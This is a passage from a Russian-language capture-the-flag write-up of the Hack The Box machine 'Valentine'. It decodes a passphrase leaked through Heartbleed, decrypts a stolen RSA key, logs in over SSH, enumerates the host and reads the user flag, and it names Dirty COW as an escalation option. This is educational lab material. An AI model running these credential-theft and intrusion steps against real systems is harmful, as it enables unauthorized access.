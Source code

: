 ```
  0160: CB 1D 08 7B 54 41 44 CA CF BE 90 80 D9 7B 4F 37  ...{TAD......{O7
  0170: 4D 90 DA 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C  M...............
  0180: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
...
```

Из внутрянной памяти сервера вытянули строчку `aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==`, которую кто-то предположительно вводил в декодер. Переведем в осмысленный текст:
```text
root@kali:~# base64 -d <<< 'aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg=='
heartbleedbelievethehype
```

Интуиция подсказывает, что сие есть парольная фраза от private-ключа, полученного ранее. Расшифруем ключ:
```text
root@kali:~# openssl rsa -in rsa.key -out rsa_decrypted.key
Enter pass phrase for rsa.key: heartbleedbelievethehype
writing RSA key
```

Установим необходимые биты доступа:
```text
root@kali:~# chmod 600 rsa_decrypted.key
```

и перейдем к следующей части.

# SSH — Порт 22 (внутри машины)
Теперь можно с чистой совестью подключиться к Valentine по SSH (имя пользователя, кстати, пришлось угадывать, к счастью это было не трудно :expressionless:):
```
root@kali:~# ssh -i rsa_decrypted.key hype@10.10.10.79
hype@Valentine:~$ whoami
hype

hype@Valentine:~$ id
uid=1000(hype) gid=1000(hype) groups=1000(hype),24(cdrom),30(dip),46(plugdev),124(sambashare)

hype@Valentine:~$ uname -a
Linux Valentine 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
```

## user.txt
Версия ядра нескромно намекает на возможность использования *Dirty COW*, но мы оставим *грязные* способы взломы на крайний случай, а пока заберем флаг пользователя:
```text
hype@Valentine:~$ cat Desktop/user.txt
e6710a54????????????????????????
```

и еще пошаримся по системе.
